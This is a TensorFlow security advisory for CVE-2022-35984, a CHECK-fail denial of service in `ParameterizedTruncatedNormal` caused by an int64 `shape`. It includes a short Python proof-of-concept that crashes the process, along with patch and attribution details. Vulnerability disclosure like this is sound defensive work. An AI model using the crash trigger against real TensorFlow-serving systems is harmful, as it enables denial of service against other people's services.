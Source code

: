 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-115.md
## TFSA-2022-115: `CHECK` fail in `ParameterizedTruncatedNormal`

### CVE Number
CVE-2022-35984

### Impact
`ParameterizedTruncatedNormal` assumes `shape` is of type `int32`. A valid `shape` of type `int64` results in a mismatched type `CHECK` fail that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
seed = 1618
seed2 = 0
shape = tf.random.uniform(shape=[3], minval=-10000, maxval=10000, dtype=tf.int64, seed=4894)
means = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
stdevs = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
minvals = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
maxvals = tf.random.uniform(shape=[3, 3, 3], minval=-10000, maxval=10000, dtype=tf.float32, seed=-2971)
tf.raw_ops.ParameterizedTruncatedNormal(shape=shape, means=means, stdevs=stdevs, minvals=minvals, maxvals=maxvals, seed=seed, seed2=seed2)
```

### Patches
We have patched the issue in GitHub commit [72180be03447a10810edca700cbc9af690dfeb51](https://github.com/tensorflow/tensorflow/commit/72180be03447a10810edca700cbc9af690dfeb51).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
